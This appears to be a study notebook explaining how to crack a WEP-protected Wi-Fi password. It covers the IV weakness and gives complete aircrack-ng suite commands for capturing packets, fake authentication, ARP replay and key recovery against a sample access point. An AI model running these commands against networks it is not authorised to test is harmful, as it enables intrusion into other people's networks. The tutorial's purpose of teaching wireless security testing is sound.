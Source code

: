 # Cracking the password of AP secured with WEP

## WEP
-   WEP uses algorithm RC4 for data encryption
-   each data is encrypted with unique key
    -   24 bit initialization vector (IV)
    -   IV + key (password) = key stream
    -   key stream + data = encrypted data
    -   IV is shared via packet in plain text
        -   this is the vulnerability, since it is shared in plain text and since the communication on the router will be high, the IV will appear many times. Statistical attack can be easily performed to gain the IV

### WEP cracking of busy network
-   Capture large amount of packets / IVs => tool `airodump-ng`
-   Analyze the captured IVs and crack the key => tool `aircrack-ng`

```bash
airodump-ng --bssid B0:95:75:42:27:E3 --channel 44 --write basic_wep wlan0 # sniff all data (see previous notebook)

aircrack-ng basic_wep-01.cap # crack the password, basic_wep-01.cap is output file from previous command airodump-ng
```

Output of aircrack-ng:
-   Example output: ... KEY FOUND! [ 41:73:32:33 ] (ASCII:As23) ...
-   Password can be used as `As23` or delete the ":" from [ ]: `41733233`

### WEP cracking of not busy network (ARP_replay)
-   Simply force AP to generate mode packets
1.  associate with the AP otherwise the requests will be ignored
    -   simple description: saying to the network "hey I want to communicate with you, don’t ignore me". But still not being authenticated to the network, since we don't know the password yet
2.  wait for ARP packet, capture it and replay it (retransmit it)
    -   This causes AP to produce another packet with the new IV
    -   Keep doing this until enough IVs to crack the key

#### 1st step
```bash
airodump-ng --bssid B0:95:75:42:27:E3 --channel 44 --write arp_replay wlan0 # check the association and sniff all the data, keep it running while to capture all the data on the network
```

- Start second command line and associate with the network

```bash
aireplay-ng --fakeauth 0 -a B0:95:75:42:27:E3 -h 5A:6E:23:9B:29:D8 wlan0 # generate many fakeauth packets to AP (target network)
```

- --fakeauth attack 0 stands for do it only once
- -a target network
- -h MAC address of wireless adapter (`ifconfig` to get the value)

#### 2nd step
```bash
aireplay-ng --arpreplay -b B0:95:75:42:27:E3 -h 5A:6E:23:9B:29:D8 wlan0 # arpreplay attack => wait for the arp packet, when captured, retransmit

aircrack-ng arp_replay-01.cap # crack the password
```

